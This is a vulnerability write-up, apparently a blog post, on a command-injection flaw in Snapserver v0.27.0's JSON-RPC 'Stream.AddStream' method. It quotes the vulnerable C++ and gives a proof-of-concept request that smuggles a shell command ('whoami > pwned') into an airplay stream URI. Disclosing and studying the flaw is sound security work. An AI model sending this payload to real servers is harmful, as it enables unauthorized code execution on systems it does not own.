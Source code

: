 ```cpp
```

```cpp
/// librespot_stream.cpp
void LibrespotStream::initExeAndPath(const std::string& filename)
{
    path_ = "";
    exe_ = findExe(filename);
```

```cpp
/// airplay_stream.cpp
void AirplayStream::initExeAndPath(const string& filename)
{
    path_ = "";
    exe_ = findExe(filename);
```

We see there's three streams where this is being used. This function is called when these streams are being instantiated using `Stream.AddStream` with `streamUri` set. Specifically this is the function being called:
```cpp
PcmStreamPtr StreamManager::addStream(StreamUri& streamUri) 
{
    ...
    else if (streamUri.scheme == "airplay")
    {
        streamUri.query[kUriSampleFormat] = "44100:16:2";
        stream = make_shared<AirplayStream>(pcmListener_, io_context_, settings_, streamUri);
    }
}
```
We see that, an object of, in this case AirplayStream is being created when this is the scheme in the URI. At some point during this creation, it will need to return to the server a handler for the pipe or process, that's going to be serving the data chunks of audio encoded using one of the codecs to the client. It's very keen on this handler existing, so they check it thoroughly, sadly they don't check the user input properly when doing this. Now to exploit this, we need to use the JSON RPC along with the `Stream.AddStream` functionality. Looking at the documentation a bit, we'll come up with something like this:
```json
{
    "id": 8,
    "jsonrpc": "2.0",
    "method": "Stream.AddStream",
    "params": {
        "streamUri": f"airplay:///etc/doesnt_exist; whoami > pwned; sleep 10?name={streamname}"
    },
}
```
And now we have RCE on the Snapserver v0.27.0. I used the POC from the blog post earlier as a template for my own, so go read the post Oxnan made. Note this is not properly weaponized, and since this is being passed in a URI, you'll need to be smart about it, you cannot use commands that have `/` in them for example, but this is relatively simple to work around, and is left as an exercise for the reader.
